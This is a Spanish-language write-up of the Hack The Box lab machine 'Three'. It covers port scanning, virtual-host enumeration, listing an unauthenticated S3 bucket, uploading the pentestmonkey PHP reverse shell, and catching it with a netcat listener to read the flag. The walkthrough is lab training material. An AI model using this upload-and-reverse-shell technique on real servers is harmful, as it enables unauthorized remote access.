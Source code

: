 Maquina: Three

Autor:

Dificultad: Muy Facil

![Screenshot 2024-11-10 183538](https://github.com/user-attachments/assets/723e5af8-477b-4910-9178-04a6c1772101)

Iniciamos la máquina y verificamos la conexión

ping 10.129.65.152 -c 1

![Screenshot 2024-11-10 183802](https://github.com/user-attachments/assets/948ef97f-f391-4d7d-88ef-34d5d15103c5)

realizamos un escaneo de puertos y servicios

nmap -p- --min-rate 5000 -sV 10.129.65.152

el puerto 22 perteneciente al servicio SSH y el puerto 80 perteneciente al servicio HTTP están abiertos

![Screenshot 2024-11-10 183919](https://github.com/user-attachments/assets/cccca470-bbba-46bd-adcf-59f7489800ba)

vamos a la web y encontramos una dirección de correo electrónico que aparece en la sección de contacto: mail@thetoppers.htb

![Screenshot 2024-11-10 183948](https://github.com/user-attachments/assets/1400ba6a-c890-4f86-93db-5b9df8d84d96)

![Screenshot 2024-11-10 184023](https://github.com/user-attachments/assets/d54a6803-ce9f-4111-a4be-367c7801caf6)

añadimos la ip a /etc/hosts

echo 10.129.65.152 thetoppers.htb | sudo tee -a /etc/hosts

![Screenshot 2024-11-10 184239](https://github.com/user-attachments/assets/2cc97e10-0183-4f57-8b4e-0c27040728fd)

identificamos subdominios con Gobuster

gobuster vhost -u http://thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain

![Screenshot 2024-11-10 184733](https://github.com/user-attachments/assets/e48ceb6c-7d0c-4cb0-bfad-55ab517dabbd)

añadimos la dirección del subdominio s3.thetoppers.htb al archivo /etc/hosts

![Screenshot 2024-11-10 185041](https://github.com/user-attachments/assets/1679ffdb-7560-4761-a7f2-7c3559680a5d)

echo 10.129.65.152 s3.thetoppers.htb | sudo tee -a /etc/hosts

vamos a la web

![Screenshot 2024-11-10 185051](https://github.com/user-attachments/assets/56135bcf-3d04-4c6d-8f82-b7132a3103cd)

el servicio se refiere a Amazon Simple Storage Service (Amazon S3)
Este servicio puede usarse para guardar diversos tipos de información, 
como copias de seguridad, archivos multimedia, páginas web estáticas, entre otros.

Lo instalamos y lo configuramos

sudo apt install awscli

aws configure

![Screenshot 2024-11-10 185345](https://github.com/user-attachments/assets/9fc58951-8855-4757-a247-942a6d4d955e)

![Screenshot 2024-11-10 185622](https://github.com/user-attachments/assets/8729ed6c-509d-4e4b-847c-4ca8c24ccf0c)

Esto nos muestra dos elementos de interés y una carpeta llamada "images". Además, disponemos de un servicio que nos permite descargar estos archivos de forma remota a nuestro entorno.

aws s3 --endpoint=http://s3.thetoppers.htb ls s3://thetoppers.htb

![Screenshot 2024-11-10 185650](https://github.com/user-attachments/assets/dad4e118-a322-471f-a4e9-f90231ac9d43)

Si no hay una configuración que exija autorización para subir archivos, podemos intentar cargar una Reverse Shell. 
Sabemos que el servidor está ejecutando archivos con extensión PHP, por lo que ya sabemos cómo generar una. 
Para este propósito, suelo recurrir a la Reverse Shell en PHP disponible en pentestmonkey. 

Puedes encontrar el script aquí: 

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

copiamos el payload en un file y cambiamos IP y puerto.

![Screenshot 2024-11-10 190554](https://github.com/user-attachments/assets/7c81e59a-50c9-42ae-942e-405b654f985a)

![Screenshot 2024-11-10 190607](https://github.com/user-attachments/assets/85f36252-4324-452c-a2f9-ab84623bc654)

Luego, utilizamos el siguiente comando para subir un archivo desde nuestro sistema local al servicio remoto.

aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb

![Screenshot 2024-11-10 190934](https://github.com/user-attachments/assets/9a8981c6-2593-455d-aa45-7f9be699b2f9)

si accedemos a ese archivo mientras tenemos Netcat escuchando en el puerto especificado (443), deberíamos obtener una shell.

nc -nlvp 443

![Screenshot 2024-11-10 192106](https://github.com/user-attachments/assets/314431cf-41eb-4782-9190-ec0491abbd6f)

Luego, accedemos a http://thetoppers.htb/shell.php.4

![Screenshot 2024-11-10 191410](https://github.com/user-attachments/assets/d7130117-25c3-40a2-b92a-c56ac2498fed)

Encontramos el flag en /var/www/flag.txt

![Screenshot 2024-11-10 191420](https://github.com/user-attachments/assets/4936b202-8280-42ac-9e6c-7e36030eba59)

![Screenshot 2024-11-10 191542](https://github.com/user-attachments/assets/60e2a943-dd0c-401f-b1cb-bfe0afd6f355)
